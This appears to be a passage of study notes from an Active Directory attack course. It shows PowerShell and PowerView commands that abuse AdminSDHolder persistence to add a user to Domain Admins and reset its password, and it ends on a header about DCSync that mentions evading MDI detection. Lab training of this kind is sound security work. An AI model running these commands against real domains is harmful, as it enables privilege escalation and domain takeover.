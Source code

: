 Run SDProp manually using Invoke-SDPropagator.ps1 from Tools directory - (this only runs every hour that applies everything from AdminSDHolder to all the protected group, so not waiting for an hour to compete we will run it manually.)

```
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

For pre-Server 2008 machines -

```
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

**NOW CHECKING THE SUCCESS! -->**

Check the Domain Admins permission - PowerView as normal user -

```
Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student1"}
```

Using ActiveDirectory Module -

```
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access | ?{$_.IdentityReference -match 'student1'} 
```

**NOW ABUSING OUR PERSISTED RIGHTS! -->**

Abusing FullControl using PowerView -

```
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose
```

Using ActiveDirectory Module -

```
Add-ADGroupMember -Identity 'Domain Admins' -Members testda
```

Abusing ResetPassword using PowerView -

```
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

Using ActiveDirectory Module -

```
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

### Rights Abuse - using ACLs (dangerous, MDI sensor goes nuts! when you do DCSync using this)
